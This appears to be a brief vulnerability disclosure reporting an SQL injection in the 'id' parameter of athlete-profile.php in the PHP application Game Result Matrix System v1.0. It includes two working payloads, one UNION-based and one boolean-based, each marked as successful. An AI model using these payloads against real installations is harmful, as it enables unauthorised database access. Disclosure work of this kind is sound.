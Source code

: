 # Game Result Matrix System v1.0 has SQL injection vulnerability

BUG_Author: zhangyf

Website source code address: https://www.sourcecodester.com/php/14022/game-result-matrix.html

Vulnerability File: /dipam/athlete-profile.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=-1' union all select null,null,null,null,null,null,null,null,null,concat(0x56575859,0x60616263),null,null,null-- -

UNION query successful.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/7.png)

Payload2: id=243' AND 123=123 AND 'qwe'='qwe

The Boolean value is judged correctly, so the page is displayed normally.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/8.png)
